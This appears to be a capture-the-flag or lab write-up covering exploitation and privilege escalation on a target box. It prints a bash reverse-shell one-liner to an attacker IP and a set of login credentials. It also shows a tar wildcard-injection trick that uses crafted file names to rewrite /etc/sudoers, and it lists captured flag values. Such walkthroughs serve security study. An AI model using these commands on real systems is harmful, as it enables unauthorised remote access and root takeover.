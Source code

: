 # Exploitation
- Reattempted login with credentials `james:canttouchhhthiss@455152`
![[Pasted image 20241018210129.png]]
- Identified "Terminal" and achieved command execution on target - ran `cat local.txt` to print `fa9343d03bf9cbb2e6ae3c5af22043dc`
![[Pasted image 20241018210333.png]]
- Started netcat listener on port `4444` and ran `/bin/bash -i >& /dev/tcp/192.168.45.155/4444 0>&1` on target to establish reverse shell
![[Pasted image 20241018210748.png]]
![[Pasted image 20241018210800.png]]

---
# Privilege Escalation
## Local Enumeration
- Ran `sudo -l` and identified `james` can run `/usr/bin/tar -czvf /tmp/backup.tar.gz *` as root without a password
![[Pasted image 20241018210915.png]]
- Identified [GTFObin for `tar`](https://gtfobins.github.io/gtfobins/tar/) using `sudo`
![[Pasted image 20241018211535.png]]
## Privilege Escalation vector
- Navigated to `/tmp` and ran `touch payload.sh` to create `payload.sh` file, then ran following commands to add to `payload.sh` and setup backup using wildcard 
```
echo "echo 'james ALL=(root) NOPASSWD: ALL' > /etc/sudoers" > payload.sh
echo "" > '--checkpoint=1'
echo "" > '--checkpoint-action=exec=sh payload.sh'
```

![[Pasted image 20241018213255.png]]
- Ran command `sudo /usr/bin/tar -czvf /tmp/backup.tar.gz *` 
![[Pasted image 20241018213503.png]]
- Ran `sudo -l` to check new sudo privileges for `james`, ran  `sudo /bin/bash` to become `root`, then ran `cat /root/proof.txt` to print `d8381218cb60a519ac20d2b75b8e1fec`
![[Pasted image 20241018213839.png]]
---
# Trophy & Loot
`local.txt` = `fa9343d03bf9cbb2e6ae3c5af22043dc`
`root.txt` = `d8381218cb60a519ac20d2b75b8e1fec`